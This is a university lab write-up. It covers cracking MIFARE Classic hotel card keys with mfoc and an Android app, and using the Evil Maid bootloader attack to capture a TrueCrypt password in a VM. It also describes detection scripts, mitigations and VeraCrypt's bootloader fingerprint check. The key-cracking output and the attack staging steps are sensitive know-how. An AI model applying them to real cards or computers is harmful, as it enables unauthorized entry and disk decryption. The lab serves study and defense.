[Key: b0b1b2b3b4b5] -> [/./xxxxxxxxxxxxx]
[Key: 4d3a99c351dd] -> [/./xxxxxxxxxxxxx]
[Key: 1a982c7e459a] -> [/./xxxxxxxxxxxxx]
[Key: aabbccddeeff] -> [/./xxxxxxxxxxxxx]
[Key: 714c5c886e97] -> [/./xxxxxxxxxxxxx]
[Key: 587ee5f9350f] -> [/./xxxxxxxxxxxxx]
[Key: a0478cc39091] -> [/./xxxxxxxxxxxxx]
[Key: 533cb6c723f6] -> [/./xxxxxxxxxxxxx]
[Key: 8fd0a4f256e9] -> [/./xxxxxxxxxxxxx]

Sector 00 - Found   Key A: a0a1a2a3a4a5 Unknown Key B
Sector 01 - Unknown Key A               Unknown Key B
Sector 02 - Found   Key A: a0a1a2a3a4a5 Unknown Key B
Sector 03 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 04 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 05 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 06 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 07 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 08 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 09 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 10 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 11 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 12 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 13 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 14 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 15 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff


Using sector 00 as an exploit sector
Sector: 1, type A, probe 0, distance 15103 .....
Sector: 1, type A, probe 1, distance 15047 .....
  Found Key: A [f5007d209e0a]
  Data read with Key A revealed Key B: [000000000000] - checking Auth: Failed!
Sector: 0, type B, probe 0, distance 15195 .....
Sector: 0, type B, probe 1, distance 15251 .....
  Found Key: B [b578f38a5c61]
Sector: 1, type B, probe 0, distance 15149 .....
Sector: 1, type B, probe 1, distance 15201 .....
Sector: 1, type B, probe 2, distance 15107 .....
Sector: 1, type B, probe 3, distance 15197 .....
Sector: 1, type B, probe 4, distance 15199 .....
  Found Key: B [280400daf21c]
Sector: 2, type B, probe 0, distance 15155 .....
Sector: 2, type B, probe 1, distance 15195 .....
  Found Key: B [0000014b5c31]
Auth with all sectors succeeded, dumping keys to a file!
Block 63, type A, key ffffffffffff :00  00  00  00  00  00  ff  07  80  69  ff  ff  ff  ff  ff  ff  
Block 62, type A, key ffffffffffff :00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  
Block 61, type A, key ffffffffffff :00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  
Block 60, type A, key ffffffffffff :00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  

[...skipping similar lines...]

Block 12, type A, key ffffffffffff :00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  
Block 11, type A, key a0a1a2a3a4a5 :00  00  00  00  00  00  0f  00  ff  aa  00  00  00  00  00  00  
Block 10, type B, key 0000014b5c31 :00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  
Block 09, type B, key 0000014b5c31 :00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  
Block 08, type B, key 0000014b5c31 :00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  
Block 07, type A, key f5007d209e0a :00  00  00  00  00  00  78  77  88  69  00  00  00  00  00  00  
Block 06, type A, key f5007d209e0a :0c  0c  0c  0c  0c  0c  0c  0c  0c  0c  8e  00  8b  51  0b  71  
Block 05, type A, key f5007d209e0a :27  41  55  41  8d  0c  74  87  2b  66  0c  cc  f3  0c  0c  0c  
Block 04, type A, key f5007d209e0a :06  0a  00  21  00  00  00  00  00  00  0c  9c  4d  db  9a  4e  
Block 03, type A, key a0a1a2a3a4a5 :00  00  00  00  00  00  78  77  88  c1  00  00  00  00  00  00  
Block 02, type A, key a0a1a2a3a4a5 :00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  
Block 01, type A, key a0a1a2a3a4a5 :d6  01  06  70  05  70  07  70  07  70  07  70  00  00  00  00  
Block 00, type A, key a0a1a2a3a4a5 :85  6d  1e  f1  07  08  04  00  01  9a  bc  a3  95  c0  53  1d  

```


The mfoc tool was able to brute force the keys. Performing the same operation on android is shown below.

First look at the type of the card:



We can see that it is type A MiFare Classic card with 1K memory.

The android application allows bruteforcing the keys, but to speed up the process its possible to create a new keyfile and add custom keys (i.e. the ones already discovered by mfoc tool). Adding custom keys is shown below:




The file is called artem.keys, then tick the box to use this keyfile when bruteforcing the card, as shown below:




Finally we can see that the android app MIFARE Classic Tool gives the same output as mfoc:




On linux viewing the output of mfoc with xxd gives the results shown below.

The read-only sector 1:

```
00000000: 856d 1ef1 0708 0400 019a bca3 95c0 531d  .m............S.
00000010: d601 0670 0570 0770 0770 0770 0000 0000  ...p.p.p.p.p....
00000020: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000030: a0a1 a2a3 a4a5 7877 88c1 b578 f38a 5c61  ......xw...x..\a
```

The data contents of sector 2:

```
00000040: 060a 0021 0000 0000 0000 0c9c 4ddb 9a4e  ...!........M..N
00000050: 2741 5541 8d0c 7487 2b66 0ccc f30c 0c0c  'AUA..t.+f......
00000060: 0c0c 0c0c 0c0c 0c0c 0c0c 8e00 8b51 0b71  .............Q.q
00000070: f500 7d20 9e0a 7877 8869 2804 00da f21c  ..} ..xw.i(.....
```

The other sectors are empty zeroes.

Examining the secotr 2 we can see that there are suspiciously many `0x0C` chars. Probably they are 0, but with some encryption scheme. Lets XOR sector 2 with byte `0x0C` and discard the last row (because it is just the , result is below:

```
00000040:0A 06 0C 2D 0C 0C 0C 0C 0C 0C 00 90 41 D7 96 42
00000050:2B 4D 59 4D 81 00 78 8B 27 6A 00 C0 FF 00 00 00
00000060:00 00 00 00 00 00 00 00 00 00 82 0C 87 5D 07 7D
```

Ok, maybe bring back the first row as it was before, and just XOR the second and third rows:

```
06 0A 00 21 00 00 00 00 00 00 0C 9C 4D DB 9A 4E
2B 4D 59 4D 81 00 78 8B 27 6A 00 C0 FF 00 00 00
00 00 00 00 00 00 00 00 00 00 82 0C 87 5D 07 7D
```

We can see that there are three suspicious bytes: `0x4D`, perhaps a delimiter, plus the last 4 bytes, look like they are some kind of a checksum.

Well if only there was a second card from that hotel it would be much easier to figure out the parts that change and the parts that stay the same. But knowing this is a hotel card we can expect that some where there should be a time stamp (or two) that would dictate when the card is valid.


## Task 2 - Full disk encryption (3 points)

Interesting article on protecting one's laptop: https://www.grepular.com/Protecting_a_Laptop_from_Simple_and_Sophisticated_Attacks


You can get a copy of Evilmaid there: https://os3.su/ot/

### Configure a physical or virtual machine running Windows

I decided to use virtual box. Initially I wanted to do the lab using a linux guest vm, however after setting up it turns out that TrueCrypt can not do full disk encryption for linux based systems. It refuses as shown below:

![linux (OT-Lab-5-physical-access.assets/linux%20(truecrypt-installed)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox_061.png) [Running] - Oracle VM VirtualBox_061](../Pictures/linux%20(truecrypt-installed)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox_061.png)


Therefore I reinstalled the VM with windows XP. 

![winxp32 [Running] - Oracle VM VirtualBox_062](OT-Lab-5-physical-access.assets/winxp32%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox_062.png)


### Crypt the disk using TrueCrypt – use system disk encryption

Download TrueCrypt from https://github.com/AuditProject/truecrypt-verified-mirror/tree/master/Windows

Then choose Create Volume and System Partition and walk through the installer. 

Selecting the boot mode:

![winxp32 [Running] - Oracle VM VirtualBox_064](OT-Lab-5-physical-access.assets/winxp32%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox_064.png)


Entering the password (I used `testpass`):

![winxp32 [Running] - Oracle VM VirtualBox_065](OT-Lab-5-physical-access.assets/winxp32%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox_065.png)


Keys generated:

![winxp32 [Running] - Oracle VM VirtualBox_066](OT-Lab-5-physical-access.assets/winxp32%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox_066.png)


Then it was necessary to create a backup iso. I extracted the ISO created by TrueCrypt from the VDI image using this link: https://stackoverflow.com/questions/16893306/how-can-i-extract-files-from-vdi
And loaded this iso in VirtualBox. Then verification was successful:

![winxp32 [Running] - Oracle VM VirtualBox_068](OT-Lab-5-physical-access.assets/winxp32%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox_068.png)


Finally everything is ready:

![winxp32 (OT-Lab-5-physical-access.assets/winxp32%20(before)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox_069.png) [Running] - Oracle VM VirtualBox_069](../Pictures/winxp32%20(before)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox_069.png)


Test rebooting:

![winxp32 (OT-Lab-5-physical-access.assets/winxp32%20(almost)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox_073.png) [Running] - Oracle VM VirtualBox_073](../Pictures/winxp32%20(almost)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox_073.png)


### Write a tool or script to check the integrity of the bootloader (detect modification of bootloader code) and test it

#### Understanding the attack vector

The attack Evil Maid is targeted at computers with encrypted hard drives. The attack works by modifying or erplacing the bootloader while the owner is not present. The evil bootloader has a keylogger installed.

To protect against this attack its necessary necessary to answer the following question on each boot: "What was there in sector 0". In other words: "What was the first piece of code that BIOS executed (BIOS is read-only, so we have to trust it)?".

The defense strategy is as follows:

1. After first installing TrueCrypt, take a reference binary dump of sector 0 (at least calculate its hash)
2. After each reboot make a dump of sector 0 and check:
    - if dump matches the reference dump (or hashes match) then everything is ok
    - if dump is different (or hash does not match), then warn the user

I installed MinGW for Windows XP and used the following two scripts.

Calculate the hash of the original bootloader (to be used as reference):

```bash
# cat calc-mbr-hash.sh
dd if=/dev/sda of=/tmp/mbr.dump bs=512 count=1
sha256sum /tmp/mbr.dump > ~/.tc-bootloader.hash
```

Compare original bootloader with current bootloader:

```bash
# cat compare-mbr-hash.sh
originalhash=$(cat ~/.tc-bootloader.hash)
dd if=/dev/sda of=/tmp/mbr.dump bs=512 count=1
currenthash=$( sha256sum /tmp/mbr.dump )
if [[ $currenthash == $originalhash ]]
then
	exit 0
else
	echo "Bootloader was modified!!! Change password!" 
	exit 1
fi
```

Then I modified one of the zero bytes in the bootloader and indeed running the script caught the error.


### Use Evil Maid to retrieve the password

Dowload Evilmaid. Check the file size:
```
# ls -la
-rw-r--r--  1 artem artem 11808768 мая  4 13:32 evilmaidusb-1.01.img
```

Check file type:
```
# file evilmaidusb-1.01.img 
evilmaidusb-1.01.img: DOS/MBR boot sector; partition 1 : ID=0x83, active, start-CHS (0x0,1,1), end-CHS (0x5,61,62), startsector 62, 23002 sectors
```

So its a disk image, ready to be booted. In real life scenarios evilmaid image would be copied with "dd" to a USB stick and the target computer would boot from that USB by setting boot priority in BIOS. 


#### Configure VirtualBox to boot EvilMaid kernel

However in this lab I am using virtual box, so need to boot virtualbox vm from the evilmaid image and install the evilmaid.  Create a VDI image from the raw evilmaid image, so VirtualBox would be able to boot it:

```
# VBoxManage convertdd evilmaidusb-1.01.img evilmaid.vdi
Converting from raw image file="/home/artem/uni/ot-lab-5/evilmaidusb-1.01.img" to file="evilmaid.vdi"...
Creating dynamic image with size 11808768 bytes (12MB)...
```
Its important to specify that this disk comes first for boot priority (its in slot SATA 0).

As shown below:


sources:

- https://www.ostechnix.com/how-to-convert-img-file-to-vdi-file-using-oracle-virtualbox/
- http://tech.webit.nu/virtualbox-convert-raw-image-to-vdi-and-otherwise/


#### Understanding this implementation of EvilMaid

To understand how this implementation of evil maid works, lets look inside the kernel image:

```
# file evilmaid-src-1.0/evilmaid/stick/initrd.img
initrd.img: gzip compressed data, last modified: Tue May 12 13:15:39 2020, from Unix
```

Decompressing it we get the following layout:

```
ls -la evilmaid-src-1.0/evilmaid/stick/initrd
total 52
drwx------ 12 artem artem 4096 мая 12 16:01 .
drwxr-xr-x  4 artem artem 4096 мая 12 16:15 ..
drwx------  2 artem artem 4096 мая 12 16:01 bin
drwx------  3 artem artem 4096 мая 12 16:01 dev
drwx------  4 artem artem 4096 мая 12 16:01 etc
-rwx------  1 artem artem 1345 мая 12 16:01 init
drwx------  6 artem artem 4096 мая 12 16:01 lib
drwxr-xr-x  3 artem artem 4096 мая 12 16:01 mnt
-rw-r--r--  1 artem artem    0 мая 12 16:01 mtab
drwx------  2 artem artem 4096 мая 12 16:01 proc
drwx------  2 artem artem 4096 мая 12 16:01 progs
lrwxrwxrwx  1 artem artem    3 мая 12 16:01 sbin -> bin
drwx------  2 artem artem 4096 мая 12 16:01 sys
drwx------  2 artem artem 4096 мая 12 16:01 sysroot
drwx------  4 artem artem 4096 мая 12 16:01 usr

```

The interesting files in the image are:

- /init - shell script run at kernel boot (after kernel boot we see output from this script) that creates devices and executes /progs/stage1.sh
- /progs/stage1.sh - shell script that waits for USB device, mounts it and executes stage2 (this is the script that prints `Waiting for the USB stick to init...` message)

This implementation of evil maid uses a two stage approach, booting into a custom kernel that waits for the second stage. The second stage is a script that must be stored on a USB stick. The kernel loops waiting for the USB stick. 


To be honest its not clear why this approach to the evil maid attack was taken. Using this approach to actually compromise a machine you need two USB sticks: 

- one with the kernel (which will be booted by BIOS)
- second one with the software which installs the key logger (by patching the true crypt's binary).

Which seems to be just extra nuisance. Perhaps it was done to allow changing the payload or target device (by default it is /dev/sda).


#### Forwarding USB to guest in VirtualBox

From the above stage1.sh uses a specific check waiting for a USB to connect, this forces the use of an actual USB.

There are two possible options for allowing VirtualBox guest to see the USB:

- Follow the steps here: https://dzone.com/articles/how-to-mount-usb-drives-on-virtualbox
- Run VirtualBox as root user (then it will have permission to see and control devices)

For the sake of experiment its simpler to run it as root. Then add the specific USB drive to be visible to your guest as shown below:



Also every time you plug a USB in Ubuntu it gets automatically mounted, for me it was at:

```
# lsbkl
sdb      8:16   1    15G  0 disk 
└─sdb1   8:17   1    15G  0 part /media/artem/0291-0D82
```

It is necessary to unmount it every time, otherwise VirtualBox will have problems.


#### Prepare the USB stick with stage 2

Anyway prepare the USB stick using the sources tarball: 

```
evilmaid-src-1.0.tgz
```

Look at file  `evilmaid-src-1.0/evilmaid/stick/stage2` we can see that it needs a binary program called `patch_tc` which is called inside the function `run_evilmaid`.

So create a USB stick (format it as FAT32, because the stage1 script expects that for mounting) with the following two files:
```
evilmaid-src-1.0/evilmaid/evilmaid-tc/patch_tc
evilmaid-src-1.0/evilmaid/stick/stage2
```


#### Carrying out the attack

Its enougth to boot into the evil kernel, attach the usb, and the menu is presented as shown below:

![winxp32 (OT-Lab-5-physical-access.assets/winxp32%20(almost)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox_072.png) [Running] - Oracle VM VirtualBox_072](../Pictures/winxp32%20(almost)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox_072.png)

Perform the attack by pressing E and poweroff the machine. (Because of my setup I changed the drive to /dev/sdb): 

![winxp32 (OT-Lab-5-physical-access.assets/winxp32%20(almost)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox_074.png) [Running] - Oracle VM VirtualBox_074](../Pictures/winxp32%20(almost)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox_074.png)

Now simulate a normal user login. Enter the disk password, check that scripts were able to detect the breach, and finally shutdown. 

Now as the attacker login to the evil kernel again, select B for bash shell and retrieve the password. 

Looking at `patch_tc.c` we can find where the sniffed password will be stored:


```C
bool DisplayTrueCryptPassword (
        unsigned char *pFirstSectors,
        unsigned long uSectorsCount
)
{
    [...skipping lines...]        
// Sniffed password should be stored at disk offset 0x7a00 (sector #61).
// Modify logger.asm if this is changed.

    [...skipping lines...]
        pPassword = (Password *) & pFirstSectors[61 * SECTOR_SIZE];
        if (MIN_PASSWORD > pPassword->Length || pPassword->Length > MAX_PASSWORD) {
                printf ("DisplayTrueCryptPassword(): No password in the disk image\n");
                return FALSE;
        }
    [...skipping lines...]
```

Alternatively we can just try to infect the booloader once more, in which case the software will detect previous infection and just show the password.

And we can see the password was found: (`testpass`)

![winxp32 (OT-Lab-5-physical-access.assets/winxp32%20(almost)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox_076.png) [Running] - Oracle VM VirtualBox_076](../Pictures/winxp32%20(almost)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox_076.png)

### How can you detect this attack? How can you prevent this attack? Is a similar attack also possible on other similar products? Why or why not? On which product(s)?

The attack works by patching the truecrypt bootloader. The attack can be detected because patching means changing data on disk, so as a user we can calculate and remember the valid hashsum of the truecrypt bootloader and if that hashsum changes we can assume that someone was tampering with the bootloader code. 

There are multiple ways to mitigate the attack. 

- Store the /boot partition on USB stick and only boot from that.
- Upgrade to UEFI + SecureBoot, perhaps via Trusted Platform Module.
- Set BIOS (or UEFI) master password and forbid booting from USB, allow only harddrive. (not 100% mitigation).  

source: https://www.grepular.com/Protecting_a_Laptop_from_Simple_and_Sophisticated_Attacks

The attack can be carried out also on machines using PGP Whole Disk Encryption, dm-crypt and possibly on FileVault. They use the same approach as TrueCrypt. 


### What mechanism is used by TrueCrypt’s successor VeraCrypt to protect against the Evil Maid attack? (show in VeraCrypt’s source code)

Download code from https://github.com/veracrypt/VeraCrypt

Search for bootloader, finding:

```
BOOT_LOADER_FINGERPRINT_CHECK_FAILED WARNING: The verification of VeraCrypt bootloader fingerprint failed!\nYour disk may have been tampered with by an attacker ("Evil Maid" attack).\n\nThis warning can also be triggered if you restored VeraCrypt boot loader using an Rescue Disk generated using a different VeraCrypt version.\n\nYou are advised to change your password immediately which will also restore the correct VeraCrypt bootloader. It is recommended to reinstall VeraCrypt and to take measures to avoid access to this machine by untrusted entities.
```

And file `src/Common/BootEncryption.h`, with functions such as:

```
271:		void GetInstalledBootLoaderFingerprint (byte fingerprint[WHIRLPOOL_DIGESTSIZE + SHA512_DIGESTSIZE]);
273:		bool IsBootLoaderOnDrive (wchar_t *devicePath);
274-		BootEncryptionStatus GetStatus ();
278:		void InstallBootLoader (...);
279:		void InstallBootLoader (...);
280:		bool CheckBootloaderFingerprint (...);
```


Looking at the main function in src/Mount/Mount.c:

```C++
InitMainDialog (hwndDlg);

try
{
  if (IsHiddenOSRunning())
  {
    uint32 driverConfig = ReadDriverConfigurationFlags();
    if (BootEncObj->GetInstalledBootLoaderVersion() != VERSION_NUM)
      Warning ("UPDATE_TC_IN_HIDDEN_OS_TOO", hwndDlg);
    if (  !(driverConfig & TC_DRIVER_CONFIG_DISABLE_EVIL_MAID_ATTACK_DETECTION)
      &&  !BootEncObj->CheckBootloaderFingerprint ())
      Warning ("BOOT_LOADER_FINGERPRINT_CHECK_FAILED", hwndDlg);
  }
  else if (SysDriveOrPartitionFullyEncrypted (TRUE))
  {
    uint32 driverConfig = ReadDriverConfigurationFlags();
    if (BootEncObj->GetInstalledBootLoaderVersion() != VERSION_NUM)
    {
      Warning ("BOOT_LOADER_VERSION_DIFFERENT_FROM_DRIVER_VERSION", hwndDlg);
    }
    if (  !(driverConfig & TC_DRIVER_CONFIG_DISABLE_EVIL_MAID_ATTACK_DETECTION)
      &&  !BootEncObj->CheckBootloaderFingerprint ())
      Warning ("BOOT_LOADER_FINGERPRINT_CHECK_FAILED", hwndDlg);
  }
}
```

We can see that CheckBootloaderFingerprint is called specifically to deal with the EVIL_MAID attack.

Inside the function CheckBootloaderFingerprint:

```c++
bool BootEncryption::CheckBootloaderFingerprint (bool bSilent)
{
  SystemDriveConfiguration config = GetSystemDriveConfiguration();

  // return true for now when EFI system encryption is used until we implement
  // a dedicated EFI fingerprinting mechanism in VeraCrypt driver
  if (config.SystemPartition.IsGPT)
    return true;

  byte bootLoaderBuf[TC_BOOT_LOADER_AREA_SIZE - TC_BOOT_ENCRYPTION_VOLUME_HEADER_SIZE];
  byte fingerprint[WHIRLPOOL_DIGESTSIZE + SHA512_DIGESTSIZE];
  byte expectedFingerprint[WHIRLPOOL_DIGESTSIZE + SHA512_DIGESTSIZE];
  bool bRet = false;

  try
  {
    // read bootloader fingerprint
    GetInstalledBootLoaderFingerprint (fingerprint);

    // compute expected fingerprint
    CreateBootLoaderInMemory (bootLoaderBuf, sizeof (bootLoaderBuf), false, false);
    ::ComputeBootloaderFingerprint (bootLoaderBuf, sizeof (bootLoaderBuf), expectedFingerprint);

    // compare values
    if (0 == memcmp (fingerprint, expectedFingerprint, sizeof (expectedFingerprint)))
    {
      bRet = true;
    }
  }
```


The current fingerprint is extracted by the GetInstalledBootLoaderFingerprint function. Then the bootloader is generated on the fly. In the end the fingerprint of the two bootloaders is compared. The idea is that the code to generate the bootloader is also encrypted. VeraCrypt encrypts every sector with a different key. Those different  keys are derived from one master key. The master key itself is stored in the volume, protected by the volume password (and/or key files).

